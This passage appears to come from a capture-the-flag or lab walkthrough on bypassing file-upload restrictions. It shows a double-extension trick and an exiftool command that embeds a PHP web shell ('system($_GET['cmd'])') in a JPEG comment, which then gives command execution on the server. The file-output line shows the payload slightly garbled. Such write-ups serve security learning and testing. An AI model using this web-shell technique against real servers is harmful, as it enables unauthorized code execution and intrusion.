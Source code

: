 We get the above message indicating that there are backend restrictions on the file extension. Next, try and upload a file with the extension “_.php.jpeg_”.

![Image for post](../images/max/292/1*fpjf6ryaqMXRnPd4vKdUvQ.png)

We get a different error message. So we bypassed the extension restriction, but we’re now faced with another restriction. My guess is it is checking the mime type of the file. To bypass that, we’ll use exiftool to add PHP code to our cat image.

```text
exiftool -Comment='<?php system($_GET['cmd']); ?>' cat.jpeg
```

This adds a parameter to the GET request called _cmd_ that we’ll use to get code execution. View the type of the file.

```text
root@kali:~# file cat.php.jpeg 
cat.php.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "<?php system(['cmd']); ?>", baseline, precision 8, 121x133, components 3
```

The file is still a JPEG image, so it should bypass MIME type restrictions. Upload the file.

![Image for post](../images/max/458/1*6opCjWPpvwzECZlO_jtevA.png)

Perfect! Now call the file with the cmd parameter to confirm that we have code execution.

![Image for post](../images/max/716/1*RwSnu0EU86R0a3ZbEvt-Xw.png)
